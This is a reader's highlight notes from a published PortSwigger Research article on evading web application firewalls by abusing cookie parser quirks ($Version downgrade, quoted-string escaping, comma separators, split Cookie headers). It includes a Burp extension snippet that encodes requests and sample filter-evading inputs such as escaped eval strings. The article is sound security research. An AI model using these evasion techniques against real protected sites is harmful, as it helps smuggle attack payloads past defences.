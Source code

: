 ```yaml
---
author: PortSwigger Research
aliases:
  - Bypassing WAFs With the Phantom $Version Cookie
tags:
  - readwise/articles
url: https://portswigger.net/research/bypassing-wafs-with-the-phantom-version-cookie
date: 2024-12-13
---
```

# Bypassing WAFs With the Phantom $Version Cookie

![rw-book-cover](https://portswigger.net/cms/images/5c/91/f7f8-twittercard-twitter-card-orange.png)

## Highlights


In this post, I'll explore some dangerous, lesser-known features of modern cookie parsers and show how they can be abused to bypass web application firewalls.
> [View Highlight](https://read.readwise.io/read/01jee9vb3y85785dz7jzndptjz)


# Downgrading cookie parsers with $Version

`Cookie: $Version=1; foo="bar"; $Path="/"; $Domain=abc;`
 
 `$Version` is a required attribute, identifying the version of the state management specification to which the cookie conforms.
> [View Highlight](https://read.readwise.io/read/01jee9xzhrabqhkzqv1vzwgvy0)

Modern frameworks analyze that header in the following ways:
```json
Flask: {"foo":"bar","$Version":"1","$Path":"/","$Domain":"abc"}
Django:{"foo":"bar","$Version":"1","$Path":"/","$Domain":"abc"}
PHP: {"foo":"\"bar\"","$Version":"1","$Path":"\"\/\"","$Domain":"abc"}
Ruby: {"foo":"\"bar\"","$Version":"1","$Path":"\"\/\"","$Domain":"abc"} 
Spring: { "foo": "\"bar\""} 
SimpleCookie: { "foo": "bar"}
```
> [View Highlight](https://read.readwise.io/read/01jee9zz0hv5t429grwvfq331s)


# Bypass Web Application Firewalls (WAFs)

Many WAFs are not equipped to detect the techniques described above, allowing malicious payloads to be hidden within quoted strings.

## Bypassing value analysis with quoted-string encoding

- semicolons (;), 
- commas (,), 
- newline characters (\n), 
- backslashes (\). 
 
While typically restricted in cookie values, these can sometimes be manipulated to trigger vulnerabilities. Implementing this type of quoted cookie encoding can be easily achieved using a Burp Suite extension with the [HttpHandler interface](https://github.com/PortSwigger/burp-extensions-montoya-api-examples/blob/main/httphandler/src/main/java/example/httphandler/MyHttpHandler.java)
> [View Highlight](https://read.readwise.io/read/01jeea3p8k7epvme79pdcyzt57)

```py
def handleHttpRequestToBeSent(requestToBeSent):
    result = "$Version=1; "
    for param in requestToBeSent.parameters:
        result += f"{param.name}=\""
        for char in param.value:
            result += f"\\{char}"
        result += "\"; "
    return continueWith(requestToBeSent.withAddedHeader("Cookie",result))
```

```
eval() => allowed 
eval('test') => forbidden 
"\e\v\a\l\(\'\t\e\s\t\'\)" => allowed 
"\145\166\141\154\050\047\164\145\163\164\047\051" => allowed
```
> [View Highlight](https://read.readwise.io/read/01jeea48a1n0pjzk6cbtmr5895)


## Bypassing cookie-name blocklists

Another crucial aspect of RFC2109: a server should also accept a comma (,) as a separator between cookie values. This can be exploited to bypass simple WAF signatures that may not anticipate a cookie name being concealed within the value.

```
Cookie: $Version=1; foo=bar, abc = qux 
	=> "abc": "qux"
```
> [View Highlight](https://read.readwise.io/read/01jeea6002hx00t3a5zcp883jc)

## Bypassing value analysis with cookie splitting

Like many other HTTP headers, the Cookie header can be sent multiple times in a single request. The way how a server handles multiple identical headers may then vary
> [View Highlight](https://read.readwise.io/read/01jeea6twyzh2bdvwcdh3k1v5b)


```http
GET / HTTP/1.1 
Host: example.com 
Cookie: param1=value1; 
Cookie: param2=value2;
```

 Got the following back:
 
 ```
Flask: { "param1": "value1", ",param2": "value2"} 
Django: { "param1": "value1", ",param2": "value2"} 
PHP: { "param1": "value1", ",_param2": "value2"} 
Ruby: { "param1": "value1", ", param2": "value2"} 
Spring: { "param1": "value1", "param2": "value2"}
```
> [View Highlight](https://read.readwise.io/read/01jeea70mpgyecnyx8eqex1db3)

Quoted cookie values are also supported, which allows hiding malicious payloads by using the Cookie header as a multi-line header continuation.
> [View Highlight](https://read.readwise.io/read/01jeea879mnkznv34j8g8q01hc)

```
Cookie: name=eval('test') => forbidden 
Cookie: name=eval('test// 
Cookie: comment') 

Resulting cookie: name=eval('test//, comment') => allowed
```
> [View Highlight](https://read.readwise.io/read/01jeea9ft91pxrd342w3d72w33)

